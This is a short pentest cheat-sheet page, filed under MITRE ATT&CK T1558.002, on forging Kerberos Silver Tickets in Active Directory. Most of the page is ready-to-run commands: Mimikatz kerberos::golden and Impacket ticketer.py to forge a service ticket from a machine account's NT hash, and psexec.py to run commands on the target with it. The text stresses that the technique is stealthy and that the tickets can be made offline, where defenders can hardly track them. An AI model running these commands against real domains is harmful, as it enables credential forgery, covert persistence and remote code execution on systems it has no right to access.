 ```yaml
---
description: MITRE ATT&CK, Credential Access, Technique T1558.002
---
```


# Create Silver Ticket

### Description

A Silver Ticket is a forged TGS, signed using the secret keys of a machine account. This can be useful for short-term persistence and is considered stealthy. The large benefit of creating a silver ticket is that we can create it offline, meaning that it can be very hard for an organization to track when one is created.&#x20;

### Mimikatz

Creation of a silver ticket utilizing Mimikatz:

```bash
kerberos::golden /user:Administrator /domain:$domain /sid:$domain_sid /target:$target_machine /service:cifs /rc4:$nthash /ticket:$output
```

### Ticketer.py

Creation of a silver ticket using Impacket:

```bash
ticketer.py -nthash $nthash -domain-sid $domain_sid -domain $domain -spn cifs/$target_machine $u
export KRB5CCNAME=$user.ccache
```

### Utilizing the Silver Ticket

Utilizing a silver ticket using Impacket:&#x20;

```bash
psexec.py $domain/$user@$target_machine -k -no-pass
```

### References

{% embed url="https://adsecurity.org/?page_id=183" %}
